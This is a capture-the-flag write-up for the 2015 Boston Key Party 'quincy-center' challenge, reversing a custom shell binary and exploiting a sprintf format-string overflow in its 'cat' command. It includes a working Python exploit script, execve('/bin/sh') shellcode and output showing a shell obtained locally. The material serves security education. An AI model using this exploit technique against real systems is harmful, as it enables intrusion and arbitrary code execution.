 ```yaml
---
title: 'quincy-center (uspace)'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend. _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/)_.


The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get "uspace" flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

{% highlight bash %}
$ file uspace
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
{% endhighlight %}

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts "bksh> " like a shell environment.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" lightbox="quincy-center" title="bksh (uspace) command line parser" %}

First, we see that there are semaphore locking/unlocking for I/O operations, which don't seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space :)

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &mdash; lists files on the system
  * create &mdash; creates a new file on the system
  * rm &mdash; deletes a file on the system
  * sleep &mdash; sleep&#8230;
  * exit &mdash; exits the shell

Let's look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there's no overflow here. Then, it "calls" into the kernel "syscall" (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" lightbox="quincy-center" title="create syscall (from uspace to kspace)" %}

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" lightbox="quincy-center" title="\"cat\" operation (open syscall followed by read syscall)" %}

**v12** is a stack buffer of size 256 bytes, and it's located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution!

<p class="filename">pwn_uspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))
{% endhighlight %}

&nbsp;

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
{% endhighlight %}

&nbsp;

<p class="filename">Pwn it!</p>
{% highlight bash %}
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh> bksh>
whoami
uspace
{% endhighlight %}

We have successfully got a shell as *uspace* user.
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" lightbox="quincy-center" title="kspace syscall handler" %}

The analysis of kspace & tz will be continued on the next post.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]